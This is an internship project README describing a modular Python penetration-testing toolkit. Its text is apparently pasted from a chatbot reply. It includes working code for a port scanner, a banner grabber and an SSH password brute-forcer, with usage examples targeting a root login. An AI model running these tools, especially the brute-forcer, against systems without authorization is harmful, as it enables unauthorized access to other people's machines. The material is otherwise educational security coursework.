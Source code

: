 NAME : AAKINA LAKSHMI PRADEEP

COMPANY : CODTECH IT SOLUTIONS

INTERN ID :CT06WR16

DOMAIN :Cyber Security & Ethical Hacking

DURATION : MARCH 25th, 2025 to MAY 10th, 2025 (6 WEEKS)

MENTOR : NEELA SANTHOSH

OVERVIEW :PENETRATION TESTING TOOLKIT
Great! Let’s build a **modular penetration testing toolkit** in **Python**, with multiple tools like:

- Port Scanner  
- Brute Force Tool  
- Service Banner Grabber  
- Vulnerability Scanner (basic)  
- Network Sniffer (optional/advanced)  

We’ll break it into modules, and I’ll also include docstrings and documentation-style comments so it's well-documented and ready for expansion.

---

## 🔧 Toolkit Structure

```
pentest_toolkit/
│
├── main.py
├── scanner/
│   ├── __init__.py
│   ├── port_scanner.py
│   └── banner_grabber.py
│
├── brute/
│   ├── __init__.py
│   └── ssh_brute.py
│
├── utils/
│   ├── __init__.py
│   └── helpers.py
│
└── README.md
```

---

### 📁 `main.py`

This is the entry point.

```python
import argparse
from scanner import port_scanner, banner_grabber
from brute import ssh_brute

def main():
    parser = argparse.ArgumentParser(description="Modular Penetration Testing Toolkit")
    subparsers = parser.add_subparsers(dest='module')

    # Port Scanner
    port_parser = subparsers.add_parser('portscan', help='Run port scanner')
    port_parser.add_argument('target', help='Target IP or hostname')
    port_parser.add_argument('--ports', default='1-1024', help='Port range (e.g., 20-80)')

    # Banner Grabber
    banner_parser = subparsers.add_parser('banner', help='Banner grabbing')
    banner_parser.add_argument('target', help='Target IP')
    banner_parser.add_argument('port', type=int, help='Target port')

    # SSH Brute Force
    brute_parser = subparsers.add_parser('bruteforce', help='Brute-force SSH login')
    brute_parser.add_argument('host', help='Target IP')
    brute_parser.add_argument('user', help='Username')
    brute_parser.add_argument('wordlist', help='Path to password wordlist')

    args = parser.parse_args()

    if args.module == 'portscan':
        port_scanner.scan_ports(args.target, args.ports)
    elif args.module == 'banner':
        banner_grabber.grab_banner(args.target, args.port)
    elif args.module == 'bruteforce':
        ssh_brute.brute_force_ssh(args.host, args.user, args.wordlist)
    else:
        parser.print_help()

if __name__ == "__main__":
    main()
```

---

### 📁 `scanner/port_scanner.py`

```python
import socket
from utils.helpers import parse_ports

def scan_ports(host, ports):
    port_range = parse_ports(ports)
    print(f"[+] Scanning {host} on ports {ports}")
    for port in port_range:
        try:
            sock = socket.socket()
            sock.settimeout(0.5)
            sock.connect((host, port))
            print(f"[+] Port {port} is OPEN")
            sock.close()
        except:
            pass
```

---

### 📁 `scanner/banner_grabber.py`

```python
import socket

def grab_banner(ip, port):
    try:
        sock = socket.socket()
        sock.settimeout(2)
        sock.connect((ip, port))
        banner = sock.recv(1024).decode().strip()
        print(f"[+] Banner from {ip}:{port} --> {banner}")
        sock.close()
    except Exception as e:
        print(f"[-] Failed to grab banner: {e}")
```

---

### 📁 `brute/ssh_brute.py`

```python
import paramiko

def brute_force_ssh(host, username, wordlist_path):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    with open(wordlist_path, 'r') as file:
        for password in file:
            password = password.strip()
            try:
                ssh.connect(host, username=username, password=password, timeout=3)
                print(f"[+] SUCCESS: {username}:{password}")
                return
            except paramiko.AuthenticationException:
                print(f"[-] Failed: {username}:{password}")
            except Exception as e:
                print(f"[!] Error: {e}")
    print("[-] Brute-force complete. No valid credentials found.")
```

---

### 📁 `utils/helpers.py`

```python
def parse_ports(port_str):
    if '-' in port_str:
        start, end = map(int, port_str.split('-'))
        return range(start, end + 1)
    else:
        return [int(port_str)]
```

---

### 📄 `README.md`

```markdown
# Penetration Testing Toolkit 🛠️

A modular Python-based toolkit for penetration testing.

## Modules

- **Port Scanner**: Scans ports on a target host.
- **Banner Grabber**: Retrieves service banners.
- **SSH Brute Forcer**: Brute-forces SSH login using a wordlist.

## Usage

```bash
python main.py portscan 192.168.1.1 --ports 22-80
python main.py banner 192.168.1.1 22
python main.py bruteforce 192.168.1.1 root passwords.txt
```

## Requirements

- `paramiko` for SSH module
```

---

## ✅ Next Steps

Would you like to:

1. Add more modules like a **simple vulnerability scanner** or **HTTP directory brute-forcer**?
2. Package it as a CLI tool with installable options?
3. Convert it to use threads/async for speed?

Let me know how deep you want to go with it!
